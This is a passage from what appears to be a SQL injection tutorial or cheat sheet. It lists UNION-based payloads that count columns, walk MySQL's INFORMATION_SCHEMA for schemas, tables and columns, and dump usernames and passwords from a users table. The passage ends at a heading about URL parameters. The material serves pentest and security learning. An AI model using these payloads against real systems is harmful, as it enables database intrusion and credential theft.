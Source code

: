 **Another method after finding the number of columns.**

Lets say we found there are three columns, we would continue this way:

```
searchitem=test' UNION SELECT 1,2,3-- -
```

```
searchitem=test' UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3-- -
```

The SCHEMATA table specifically contains the names of databases MySQL knows about.

```
searchitem=test' UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'db'),3-- -
```

```
searchitem=test' UNION SELECT 1,(select group_concat(COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'),3-- -
```

```
searchitem=test' UNION SELECT 1,(select username from db.users),3-- -
```

```
searchitem=test' UNION SELECT 1,(select pwd from db.users),3-- -
```

**Another method to finding the number of columns and proceeding further**:

```
' UNION select 1 from information_schema.tables #
' UNION select 1,2 from information_schema.tables #
' UNION select 1,2,3 from information_schema.tables #
```

The one that returns a correct output is the one that indicates the number of columns Proceeding

```
' UNION select 1,table_schema,table_name from information_schema.tables #
```

```
' UNION select 1,table_name,column_name from information_schema.columns #
```

```
' UNION select 1,username,pwd from users #
```

### SQL Injection in URL Parameters

Say we have the below URL:

```
http://domain.com/profile?id=1
```
